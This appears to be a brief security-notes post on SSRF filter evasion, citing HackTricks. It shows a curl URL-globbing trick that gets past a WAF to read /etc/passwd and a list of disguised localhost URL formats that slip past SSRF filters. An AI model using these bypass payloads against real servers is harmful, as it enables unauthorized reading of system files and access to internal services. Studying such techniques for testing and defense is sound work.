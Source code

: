 ```yaml
---
title: SSRF(Server Side Request Forgery)
author: janger
date: 2023-10-07
category: Web Hacking
layout: post
---
```


## Curl URL globbing - WAF bypass
dotdot(..)과 %가 필터링 되는 경우 URL globbing을 사용하여 우회가 가능하다. 
~~~ bash
curl http://target.com/{.}{.}/{.}{.}/etc/passwd
~~~


## URL Format Bypass
~~~ 
http:@0/
http@0/
http://①②⑦.⓪.⓪.①/
http://127。0。0。1
~~~

## Reference

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)
